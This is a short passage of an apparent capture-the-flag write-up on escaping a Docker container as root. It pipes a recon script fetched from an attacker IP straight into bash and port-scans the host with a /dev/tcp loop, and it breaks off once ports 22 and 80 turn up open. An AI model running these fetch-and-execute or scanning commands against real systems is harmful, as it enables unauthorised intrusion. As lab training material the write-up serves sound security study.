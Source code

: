 Good news is we are root already, docker escape will be relatively easy

# Root Flag
---

## Docker Escape via ssh to host

Run some auto recon scripts first

```bash
root@3a453ab39d3d:/backend# curl 10.10.16.10/deepce.sh|bash
```

![](/assets/obsidian/41f88032a9079a1cd37114381efff2fe.png)

![](/assets/obsidian/ba4efb50e6149802657c9198d09c6d3c.png)

Scan ports opened on host machine

> Cheatsheet - https://github.com/0xsyr0/OSCP#port-scanning

```bash
root@3a453ab39d3d:/backend# export ip=172.19.0.1; for port in $(seq 1 65535); do timeout 0.01 bash -c "</dev/tcp/$ip/$port && echo The port $port is open || echo The Port $port is closed > /dev/null" 2>/dev/null || echo Connection Timeout > /dev/null; done
The port 22 is open
The port 80 is open
```
